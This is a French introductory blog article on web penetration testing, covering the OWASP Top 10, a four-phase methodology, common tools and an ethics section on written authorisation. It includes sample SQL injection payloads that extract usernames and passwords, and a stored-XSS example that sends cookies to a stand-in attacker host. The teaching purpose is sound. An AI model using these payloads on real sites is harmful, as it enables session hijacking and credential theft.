 ```yaml
---
title: "Introduction au Pentesting Web : Les Bases à Connaître"
date: 2025-10-15T10:00:00+02:00
description: "Découvrez les fondamentaux du pentesting web et les techniques essentielles pour identifier les vulnérabilités des applications web"
categories: ["Pentesting"]
tags: ["Web", "OWASP", "Sécurité", "Pentest", "Vulnérabilités"]
author: "Istaark"
author_bio: "Expert en cybersécurité et pentesting, passionné par la sécurité des applications web"
image: ""
---
```


## Introduction

Le pentesting web, ou test d'intrusion des applications web, est une pratique essentielle dans le domaine de la cybersécurité. Cette discipline consiste à identifier et exploiter les vulnérabilités des applications web de manière contrôlée et éthique, dans le but de renforcer leur sécurité.

Dans cet article, nous allons explorer les bases du pentesting web et découvrir les techniques fondamentales que tout pentester doit maîtriser.

## Pourquoi le Pentesting Web ?

Les applications web sont devenues omniprésentes dans notre quotidien. Elles gèrent des données sensibles (informations personnelles, données bancaires, secrets d'entreprise) et représentent une surface d'attaque importante pour les cybercriminels.

### Statistiques alarmantes

- **43%** des cyberattaques ciblent les PME
- **90%** des applications web présentent au moins une vulnérabilité critique
- Le coût moyen d'une violation de données atteint **4,45 millions de dollars** en 2023

## Les Principales Vulnérabilités Web

### 1. Injection SQL (SQLi)

L'injection SQL reste l'une des vulnérabilités les plus dangereuses. Elle permet à un attaquant d'injecter du code SQL malveillant dans les requêtes de l'application.

```sql
-- Exemple d'injection SQL simple
' OR '1'='1' --

-- Extraction de données
' UNION SELECT username, password FROM users --
```

### 2. Cross-Site Scripting (XSS)

Le XSS permet d'injecter du code JavaScript malveillant dans les pages web consultées par d'autres utilisateurs.

```html
<!-- XSS Reflected -->
<script>alert('XSS')</script>

<!-- XSS Stored -->
<img src=x onerror="fetch('https://attacker.com?cookie='+document.cookie)">
```

### 3. Broken Authentication

Les failles d'authentification peuvent permettre aux attaquants de :
- Compromettre des mots de passe
- Voler des tokens de session
- Bypasser les mécanismes d'authentification

## Méthodologie de Pentesting Web

### Phase 1 : Reconnaissance

La première étape consiste à collecter un maximum d'informations sur la cible :

- Identification des technologies utilisées
- Cartographie de l'application
- Découverte des endpoints
- Analyse des sources JavaScript

### Phase 2 : Scanning et Énumération

```bash
# Scan avec nmap
nmap -sV -sC target.com

# Énumération de répertoires
gobuster dir -u https://target.com -w /usr/share/wordlists/dirb/common.txt

# Fuzzing de paramètres
ffuf -u https://target.com/FUZZ -w wordlist.txt
```

### Phase 3 : Exploitation

C'est la phase où l'on tente d'exploiter les vulnérabilités identifiées :

1. Validation des vulnérabilités
2. Développement ou adaptation d'exploits
3. Obtention d'un accès initial
4. Élévation de privilèges si nécessaire

### Phase 4 : Post-Exploitation

- Maintien de l'accès
- Collecte de preuves
- Documentation des découvertes

## Outils Essentiels

### Burp Suite

L'outil de référence pour le pentesting web. Il permet de :
- Intercepter et modifier les requêtes HTTP
- Scanner automatiquement les vulnérabilités
- Fuzzer les paramètres
- Analyser les réponses

### OWASP ZAP

Alternative open-source à Burp Suite, idéale pour débuter :

```bash
# Lancement de ZAP en mode daemon
zap.sh -daemon -port 8080 -config api.key=your-api-key
```

### Nikto

Scanner de vulnérabilités web rapide :

```bash
nikto -h https://target.com -ssl
```

## Le Top 10 OWASP

Le projet OWASP (Open Web Application Security Project) publie régulièrement la liste des 10 vulnérabilités web les plus critiques :

1. **Broken Access Control**
2. **Cryptographic Failures**
3. **Injection**
4. **Insecure Design**
5. **Security Misconfiguration**
6. **Vulnerable and Outdated Components**
7. **Identification and Authentication Failures**
8. **Software and Data Integrity Failures**
9. **Security Logging and Monitoring Failures**
10. **Server-Side Request Forgery (SSRF)**

## Bonnes Pratiques et Éthique

> Le pentesting doit toujours être réalisé avec l'autorisation explicite du propriétaire de l'application. Toute intrusion non autorisée est illégale et passible de poursuites.

### Code de conduite du pentester

- Obtenir une autorisation écrite avant tout test
- Respecter le périmètre défini
- Protéger la confidentialité des données découvertes
- Documenter toutes les actions effectuées
- Fournir un rapport détaillé avec des recommandations

## Conclusion

Le pentesting web est un domaine passionnant et en constante évolution. Les compétences acquises permettent non seulement d'identifier les failles, mais aussi de comprendre comment construire des applications plus sécurisées.

Pour progresser dans ce domaine :

1. **Pratiquez régulièrement** sur des plateformes légales (HackTheBox, TryHackMe, PentesterLab)
2. **Restez informé** des nouvelles vulnérabilités et techniques
3. **Participez à des CTF** pour affûter vos compétences
4. **Contribuez** à la communauté en partageant vos connaissances

La route est longue, mais chaque vulnérabilité découverte et corrigée rend le web un peu plus sûr !

## Ressources Complémentaires

- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- [HackerOne Disclosed Reports](https://hackerone.com/hacktivity)
- [Bug Bounty Platforms](https://www.bugcrowd.com/)
